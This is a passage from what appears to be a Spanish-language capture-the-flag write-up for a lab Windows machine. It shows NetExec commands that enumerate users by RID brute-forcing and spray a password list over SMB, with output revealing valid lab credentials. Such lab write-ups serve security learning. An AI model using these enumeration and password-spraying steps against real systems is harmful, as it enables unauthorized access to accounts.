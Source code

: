### RID Cycling Attack

A través de las credenciales de `hazard`, realizaremos un **RID Cycling Attack** para lograr obtener más usuarios válidos del equipo. En este caso, logramos obtener más nombres de usuarios.

```bash
❯ nxc smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute | grep SidTypeUser
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

Guardaremos estos nuevos usuarios encontrados en el archivo `users.txt`, volveremos a lanzar un ataque de fuerza bruta para validar si alguno de estos nuevos usuarios dispone de alguna contraseña válida del listado que tenemos.&#x20;

Logramos verificar las credenciales del usuario `chase`.

```bash
❯ nxc smb 10.10.10.149 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\defaultaccount:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\guest:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\jason:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\wdagutilityaccount:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
...[snip]...
```

### Abusing WinRM - EvilWinRM
